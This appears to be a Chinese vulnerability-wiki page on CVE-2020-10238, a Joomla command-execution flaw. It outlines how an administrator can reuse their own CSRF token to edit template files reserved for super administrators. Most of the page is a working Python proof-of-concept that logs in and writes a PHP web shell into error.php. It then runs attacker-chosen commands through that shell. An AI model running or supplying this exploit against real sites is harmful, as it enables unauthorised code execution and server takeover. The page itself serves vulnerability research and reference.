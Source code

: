 （CVE-2020-10238）Joomal \<= 3.9.15 远程命令执行漏洞
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

\<= 3.9.15

三、复现过程
------------

    http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==

使用admin进行登录

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId24.png)

### 思路：

-   首先超级管理员跟管理员的后台界面是不同的
-   将恶意代码添加到index.php里面
-   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId26.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId27.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId29.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId30.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId31.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId32.png)

### poc

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10238)Joomla<=3.9.15远程命令执行漏洞/media/rId34.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse

    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n") + "[-] You are not admin account!"
            return None
        return match.group(1)
    def try_admin_login(sess,url,uname,upass):
        admin_url = url+'/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        # print token
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True

    def rce(sess,url,cmd):
        getjs = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D'
        resp = sess.get(getjs, verify=True)
        token = extract_token(resp)
        if (token==None) : sys.exit()
        filename='error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        shreq = sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd='+cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'

    def main() :
        
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        
        sess = requests.Session()
        if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
        rce(sess,url,command)
    if __name__ == "__main__":
        sys.exit(main())

参考链接
--------

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238

